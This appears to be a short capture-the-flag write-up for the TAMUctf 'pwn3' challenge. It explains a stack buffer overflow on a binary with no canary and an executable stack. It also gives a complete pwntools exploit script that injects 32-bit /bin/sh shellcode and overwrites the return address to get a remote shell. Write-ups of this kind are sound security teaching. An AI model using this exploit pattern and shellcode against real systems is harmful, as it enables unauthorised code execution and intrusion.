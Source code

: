 # pwn3

nc pwn.tamuctf.com 4323

For this problem, there's no stack canary and the stack is executable. So all I have to do is return to my code and execute it to spawn a shell. The program actually returns the stack address corresponding to the start of the input string stored to the stack, so I just have to return there. For this problem, I used some 32-bit shellcode that I already had lying around -- I think it was from ShellStorm originally. I need 302 bytes of input followed by the return address.

Here's the exploit code:

```
# Solve 3.py

from pwn import *
from time import sleep

p = remote('pwn.tamuctf.com', 4323)

p.recvuntil("0x")
shellcode_address = int(p.recv(8),16)
print("stack address = " + str(shellcode_address))
shellcode = "\x31\xC0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x50\x89\xe2\x52\x89\xe2\xb0\x0b\xcd\x80"
payload = shellcode + "A"*(302-len(shellcode)) + p32(shellcode_address) + "\n"
p.send(payload)
p.interactive()
```

![./flag.png](./flag.png)

Short and sweet.
